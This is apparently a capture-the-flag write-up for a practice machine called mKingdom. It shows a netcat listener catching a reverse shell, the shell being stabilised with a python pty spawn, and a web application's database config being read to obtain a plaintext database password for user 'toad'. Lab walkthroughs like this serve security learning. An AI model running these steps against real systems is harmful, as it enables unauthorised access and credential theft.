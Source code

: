 ## First Access Netcat

We set up the listener and click on the file :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~]
└─$ nc -lvnp 1337                           
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.139.248] 33420
Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 09:08:05 up 21 min,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Shell Stabilization

We can have a more stable [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) performing [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) :

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@mkingdom:/home$ export TERM=xterm
export TERM=xterm
www-data@mkingdom:/home$ clear
clear
www-data@mkingdom:/home$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                                  
┌──(mdn0x㉿mdn0xonKali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                               reset
```

# Lateral Movement - Privilege Escalation

## www to Toad

We can find application config files :

```bash
www-data@mkingdom:/var/www/html/app/castle/application/config$ ls
app.php  database.php  doctrine  generated_overrides
www-data@mkingdom:/var/www/html/app/castle/application/config$ cat database.php
<?php

return [
    'default-connection' => 'concrete',
    'connections' => [
        'concrete' => [
            'driver' => 'c5_pdo_mysql',
            'server' => 'localhost',
            'database' => 'mKingdom',
            'username' => 'toad',
            'password' => 'toadisthebest',
            'character_set' => 'utf8',
            'collation' => 'utf8_unicode_ci',
        ],
    ],
```